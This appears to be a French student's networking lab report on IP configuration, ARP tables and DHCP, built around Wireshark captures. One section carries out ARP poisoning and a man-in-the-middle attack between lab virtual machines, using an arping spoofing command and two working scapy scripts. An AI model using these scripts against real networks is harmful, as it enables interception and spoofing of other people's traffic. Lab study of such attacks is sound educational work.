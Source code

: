 # TP2 : Ethernet, IP, et ARP
Geoffrey Diederichs B1 B
# I. Setup IP
🌞 **Mettez en place une configuration réseau fonctionnelle entre les deux machines**
```
$ sudo ip addr add 10.10.10.2/22 dev enp3s0
```
```
$ ip a

2: enp3s0:
    link/ether c0:18:50:0e:cb:bb
    inet 10.10.10.2/22
```
```
$ sipcalc 10.10.10.2/22

-[ipv4 : 10.10.10.2/22] - 0

[CIDR]
Network address		- 10.10.8.0
Network mask		- 255.255.252.0
Broadcast address	- 10.10.11.255
```
🌞 **Prouvez que la connexion est fonctionnelle entre les deux machines**
```
$ ping 10.10.10.3

PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.3: icmp_seq=1 ttl=128 time=2.47 ms
64 bytes from 10.10.10.3: icmp_seq=2 ttl=128 time=1.27 ms
64 bytes from 10.10.10.3: icmp_seq=3 ttl=128 time=1.33 ms
64 bytes from 10.10.10.3: icmp_seq=4 ttl=128 time=1.11 ms
^C
--- 10.10.10.3 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 1.105/1.542/2.471/0.542 ms

```
🌞 **Wireshark it**
 - Ping : type 8, code 0
 - Pong : type 0, code 0

[Paquets ICMP](./Trames/ping.pcapng)
# II. ARP my bro
🌞 **Check the ARP table**
```
$ ip n s

10.33.19.254 dev wlp4s0 lladdr 00:c0:e7:e0:04:4e REACHABLE 
10.10.10.3 dev enp3s0 lladdr e4:a8:df:c1:f9:9d STALE 
```
- MAC de la gateway : 00:c0:e7:e0:04:4e
- MAC du binôme : e4:a8:df:c1:f9:9d

🌞 **Manipuler la table ARP**
```
$ sudo ip n flush all  
```
```
$  ip n s

10.33.19.254 dev wlp4s0 lladdr 00:c0:e7:e0:04:4e REACHABLE 

```
```
$ ping 10.10.10.3
```
```
$ ip n s

10.33.19.254 dev wlp4s0 lladdr 00:c0:e7:e0:04:4e REACHABLE 
10.10.10.3 dev enp3s0 lladdr e4:a8:df:c1:f9:9d REACHABLE 

```
🌞 **Wireshark it**

[Trames ARP](./Trames/arp.pcapng)

# II.5 Interlude hackerzz
## 1 - ARP poisoning
- Eve :
```
$ ip a

3: eth1:
    link/ether 08:00:27:be:50:e2
    inet 192.168.56.104/24
```
- Alice :
```
$ ip a

2: enp0s8:
    link/ether 08:00:27:ff:10:b8
    inet 192.168.56.102/24
```
- Bob : 
```
$ ip a

2: enp0s8:
    link/ether 08:00:27:c6:94:50
    inet 192.168.56.103/24

$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 REACHABLE
```
- Depuis Eve : 
```
$ sudo sysctl net.ipv4.ip_nonlocal_bind=1

$ sudo arping -c 1000000 -U -S 192.168.56.102 -I eth1 192.168.56.103
```
- Depuis Bob : 
```
$ ip n s

192.168.56.102 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
```
[Pings](./Trames/arp_poisoning_1_ping.pcapng)
## 2 - Man in the middle
- ARP poisoning (arp_poisoning.py) : 
``` python 
from scapy.all import *

while 1:
    send(ARP(pdst = "192.168.56.102", psrc = "192.168.56.103", hwsrc = "08:00:27:be:50:e2"))
    send(ARP(pdst = "192.168.56.103", psrc = "192.168.56.102", hwsrc = "08:00:27:be:50:e2"))

```
- Man in the middle (mitm.py) : 
``` python
from scapy.all import *

# modifie et envoie les packets
def changer_dst(packet):
    if packet[Ether].dst == "08:00:27:be:50:e2": # si le mac du destinataire est celui d'eve
        # modifie l'adresse mac du destinataire en fonction de l'IP
        packet[Ether].dst = "08:00:27:ff:10:b8"*(packet[IP].dst == "192.168.56.102") + "08:00:27:c6:94:50"*(packet[IP].dst == "192.168.56.103")
        packet[Ether].src = "08:00:27:be:50:e2" # modifie l'adresse mac de l'expéditeur
        sendp(packet)

# Intercepte les packets
sniff(iface="eth0", filter = "icmp and host 192.168.56.103 and host 192.168.56.102", prn = changer_dst)

```
- Alice et Bob : 
```
[alice@localhost ~]$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
```
```
[bob@localhost ~]$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 REACHABLE
```
- Eve : 
```
$ sudo python Desktop/arp_poisoning.py
```
- Alice et Bob : 
```
[alice@localhost ~]$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
192.168.56.104 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
192.168.56.103 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE

```
```
[bob@localhost ~]$ ip n s
192.168.56.100 dev enp0s8 lladdr 08:00:27:90:83:f3 STALE
192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
192.168.56.102 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
192.168.56.104 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
```
[Trames ARP poisoning](./Trames/arp_poisoning_py.pcapng)
- Eve : 
```
$ sudo python Desktop/mitm.py
```
- Alice et Bob : 
```
[alice@localhost ~]$ ping 192.168.56.103 -c 3

PING 192.168.56.103 (192.168.56.103) 56(84) bytes of data.
64 bytes from 192.168.56.103: icmp_seq=1 ttl=64 time=74.3 ms
64 bytes from 192.168.56.103: icmp_seq=2 ttl=64 time=68.1 ms
64 bytes from 192.168.56.103: icmp_seq=3 ttl=64 time=45.6 ms

--- 192.168.56.103 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 45.616/62.655/74.280/12.312 ms
```
[Pings d'Alice](./Trames/alice_pings.pcapng)
```
[bob@localhost ~]$ ping 192.168.56.102 -c 3

PING 192.168.56.102 (192.168.56.102) 56(84) bytes of data.
64 bytes from 192.168.56.102: icmp_seq=1 ttl=64 time=50.9 ms
64 bytes from 192.168.56.102: icmp_seq=2 ttl=64 time=62.3 ms
64 bytes from 192.168.56.102: icmp_seq=3 ttl=64 time=59.0 ms

--- 192.168.56.102 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 50.900/57.393/62.259/4.777 ms
```
[Pings de Bob](./Trames/bob_pings.pcapng)
# III. DHCP you too my brooo

🌞 **Wireshark it**

[Trames DHCP](./Trames/dhcp.pcapng)
- IP à utiliser : 
    trame 2, destinataire (10.33.16.230)
- Adresse IP de la passerelle réseau : 
    trame 2, option 3, routeur (10.33.19.254)
- Adresse d'un serveur DNS : 
    trame 2, option 6, Domaine Name Server (8.8.8.8 ; 8.8.4.4 ; 1.1.1.1)
